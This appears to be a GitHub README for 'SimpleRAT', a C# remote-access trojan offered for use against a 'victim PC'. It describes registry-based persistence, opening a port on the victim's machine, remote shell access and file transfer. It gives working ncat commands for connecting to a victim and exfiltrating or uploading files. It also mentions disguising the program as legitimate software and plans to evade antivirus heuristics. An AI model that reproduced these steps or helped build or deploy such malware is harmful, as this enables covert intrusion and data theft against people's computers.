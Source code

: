 # SimpleRAT

Self-contained Remote-Access-Trojan/Backdoor written fully in C#.
After installation and launch, listens on port specified in JSON configuration. After successfull connection gives remote shell.
Configured for self-startup (key in registry)
Developed for Windows, Fully compatible with Netcat (tested with windows version). 
NO additional server setups for file downloads or uploads
NO additional dll's or configuration files 
Only one .exe and netcat on your side.

# What RAT can
1. Auto-open port on victim PC
2. After connection on specified port (provided in JSON file, which can be changed as you wish and should be merged into exe after that by using provided tool), gives reverse shell.
3. Is able to download any files from victim's PC on specified port (provided in JSON file) and upload files on victim PC, no need for server setup or anything, only netcat on your side and launched RAT on victim's side :)
### How to download files:
4. Put netcat on listening state (ncat -v -l -p "port for file download from JSON" > "file name with extension that you want to download")

Example: ncat -v -l -p 8889 > helloworld2.exe

NOTE: I advice you to use "-v" for more verbose output

2. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

3. Check if reverse shell is working (cd, dir)

5. Currently RAT has it's own command interpreter which will listen to commands from your PC, these type of commands begin with "RAT".

For file download command is - "RAT download file -p <windows/path/to/file/withextension>"
  
Process:
![RAT-guide](https://user-images.githubusercontent.com/53906830/109512165-1aee9280-7aa4-11eb-891f-89ff993b7dd4.png)

### How to upload files:
1. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

2. Check if reverse shell is working (cd, dir)

3. Put RAT in listenning state by executing:
RAT upload file -p <path/to/file.exe>

Example: RAT upload file -p C:\Users\someuser\checkme\ConsoleApp4.exe

4. Send file through netcat on main port of your RAT

Example: ncat 192.168.88.230 8888 --send-only < ConsoleApp4.exe

Process:
![receivefile](https://user-images.githubusercontent.com/53906830/111041705-dcf55500-8439-11eb-8eac-f7e0c1d897ba.png)

## Downsides
1. During first launch Windows Firewall will give popup asking user if he allows RAT to access firewall (i.e open port), data that is provided can be modified by editing exe metadata.
2. Is detected by Kasperky (Heuristic) on full protection as Trojan.Win32.Generic
3. High .exe application size (35 MB) 
4. High memory usage

![rat-memory](https://user-images.githubusercontent.com/53906830/110226932-73ce8880-7ef3-11eb-9f0e-b455832e95b4.png)

Both size and memory problems are because RAT is self-contained application with builded-in .NET runtime.
From one side those are problems for sure, from other side you could mask program with such size and memory usage as other legitimate one :)

### Features To Be Done: 

1. RAT as Windows Service (?)
2. Bypass heuristic (?)

